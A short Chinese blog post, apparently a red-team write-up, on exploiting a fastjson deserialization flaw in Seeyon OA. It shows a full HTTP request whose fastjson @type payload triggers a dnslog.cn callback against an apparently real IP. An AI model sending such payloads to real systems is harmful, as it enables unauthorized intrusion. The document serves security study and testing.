 ```yaml
---
layout: post
title: SeeyonFastjson利用链

---
```


## 0x01  前言

前段时间刚结束一场hvv，现场遇到了这样的情况，存在seeyon的fastjson接口但是利用链不行。

后来换了mysql connector的利用链，前提是seeyon的数据库用的是Mysql

## 0x02  接口1

```
POST /seeyon/main.do?method=changeLocale HTTP/1.1
Host: 125.35.108.68:9090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://125.35.108.68:9090/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://125.35.108.68:9090/seeyon/main.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=9845FB928E346136D2356099A6862683; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

_json_params={"@type":"java.net.Inet4Address","val":"k6suli.dnslog.cn"}
```

dnslog有回显，但是看了网上执行命令的方法，都是一直失败

安装的时候有这么个东西，就是后文利用链里面需要的mysql-connector

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105142552.png)

这个要装对应的jdbc驱动，比如mysql-connector-java-5.1.38-bin.jar



